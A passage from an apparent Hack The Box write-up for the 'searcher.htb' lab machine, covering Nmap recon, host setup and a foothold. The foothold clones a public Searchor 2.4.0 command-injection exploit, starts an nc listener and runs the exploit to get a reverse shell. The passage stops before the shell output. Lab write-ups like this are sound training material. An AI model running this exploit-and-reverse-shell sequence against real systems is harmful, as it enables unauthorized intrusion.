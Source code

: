 ```shell
1   31.76 ms 10.10.14.1
2   33.38 ms 10.129.228.217

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

Examining the Nmap scan, we found a domain called searcher.htb. Lets add it to /etc/hosts:

```shell
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration
Lets take a look at the website:

```shell
http://searcher.htb/
```

It seems to be some kind of search website to run queries.

If we scroll down, we will be able to find a very interesting information:

```shell
Powered by Flask and Searchor 2.4.0
```

# Foothold
### Searchor 2.4.0 Arbitrary CMD Injection

If we google "searchor 2.4.0 exploit" we will find the following exploit:

```shell
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
```

It seems like this PoC would give us directly a reverse shell.

Let's run the exploit:

```shell
# Get the exploit
git clone https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection.git
cd Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

# Start nc listener
nc -lvnp 8443

# Run the exploit as written on the exploit documentation
bash exploit.sh http://searcher.htb/ 10.10.14.206 8443
```

 We will get a result on our nc listener after running the command above:
 